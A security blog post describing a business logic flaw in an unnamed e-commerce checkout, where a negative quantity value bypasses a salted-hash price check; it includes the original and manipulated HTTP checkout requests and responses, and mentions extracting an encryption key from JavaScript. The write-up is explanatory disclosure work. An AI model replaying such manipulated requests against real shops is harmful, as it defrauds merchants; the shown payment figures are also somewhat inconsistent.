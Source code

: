 ```yaml
---
title: "Exploiting Business Logic Error: Price Manipulation"
layout: post
date: 2023-04-12 12:00
categories: blog
---
```


This blog discusses the exploitation of a business logic error that allows users to manipulate prices and pay less for the products and services offered by the target company.

## Target Background
The target of this analysis is a web application functioning as an e-commerce platform. It facilitates online purchases of various products and services by users.

## Overview
The Target company previously disclosed a vulnerability report regarding a specific issue: "hackers were able to manipulate the payment amount during the checkout/order process." To understand the application's fix for this vulnerability, I attempted the same steps to examine the implemented validation mechanisms.

## Reconnaissance
- Hosted on AWS
- Utilizes React for web application development
- Mobile application version is also available
- All application requests and responses are encrypted

## Finding the Encryption Key
Upon inspecting the application traffic, I discovered that the JSON payloads in requests and responses were encrypted. To manipulate or interact with these encrypted payloads, I needed to locate the encryption and decryption keys.

During my analysis of the JavaScript files, I identified the encryption key, the encryption algorithm, the mode, and the initialization vector. Armed with this information, I used online encryption tools to encrypt the payloads.

## Playing with fire🔥
I attempted to modify the price parameter in the request, but the application's validation mechanism prevented any successful manipulation. The amount to be paid was validated against a salted hash that was associated with the purchase order.

## Actual Request and Response

### Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "amount_to_be_paid": "100",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

The above request represents a checkout request sent to the server to facilitate payment for a purchase order. To address the previously exploited price manipulation vulnerability, the developer implemented an additional parameter named `saltedhash`.

## Bypass
During my exploration of the application flow and requests, I decided to conduct a deeper investigation of the `checkout` request. I noticed a parameter called `quantity`, which was responsible for creating orders based on the desired quantity specified by customers. I attempted to modify this value to a negative number.

## Manipulated Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

Upon sending the request with a negative value for the `quantity` parameter, the server responded by adjusting the amount to be paid accordingly. The lack of validation on the `quantity` parameter allowed negative values to be accepted. As a result, the backend calculation for the amount to be paid was based on the per-quantity price and the number of quantities in the cart.

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "amount_to_be_paid": "6",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

By changing the `quantity` value to a negative number, it was possible to pay a reduced amount for the orders placed.

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).